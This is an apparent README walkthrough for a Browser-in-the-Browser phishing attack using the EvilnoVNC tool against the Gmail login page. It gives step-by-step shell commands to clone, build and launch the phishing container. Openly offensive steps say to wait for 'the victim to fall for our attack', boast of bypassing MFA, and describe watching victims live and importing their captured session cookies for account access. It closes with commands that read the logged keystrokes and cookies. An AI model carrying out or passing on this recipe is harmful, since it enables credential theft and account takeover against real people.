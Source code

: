 # Browser-in-the-Browser BitB attack

Tool: EvilnoVNC: https://github.com/JoelGMSec/EvilnoVNC

## Steps

#### 1) Clone the EvilnoVNC tool 

    git clone https://github.com/JoelGMSec/EvilnoVNC

#### 2) Setup tool

    cd EvilnoVNC

To ensure Docker has the proper access to build context files. The ownership of the Downloads directory is first changed to match the container’s internal user.

    sudo chown -R 103 Downloads

#### 3) Deploy the EvilnoVNC phishing environment as a container

    sudo docker build -t joelgmsec/evilnovnc .

#### 4) Launch EvilnoVNC with Targeted Phishing Page

    sudo chmod +x *

    sudo ./start.sh 1920x1080x24 https://mail.google.com

This step makes all scripts executable. It then launches a virtual desktop inside a Docker container at the specified resolution and opens the real Gmail login page in a browser, exposing it interactively via noVNC over WebSockets.

#### 5) Wait for the victim to fall for our attack! (Our attack even Bypasses MFA)

#### 6) You can check the victim's actions in real-time view by browsing on our localhost.

#### 7) Next, session cookies are extracted from our own browser and imports them into Chromium for full access without needing to phish artifacts, code injections, or traffic proxying.

#### 8) In Chromium, visit

    chrome://history

which shows the victim's browsing history.

#### 9) Retrieve cookies and keystrokes

Location:

    cat /novnc/Downloads/Keylogger.txt
    cat /novnc/Downloads/Cookies.txt


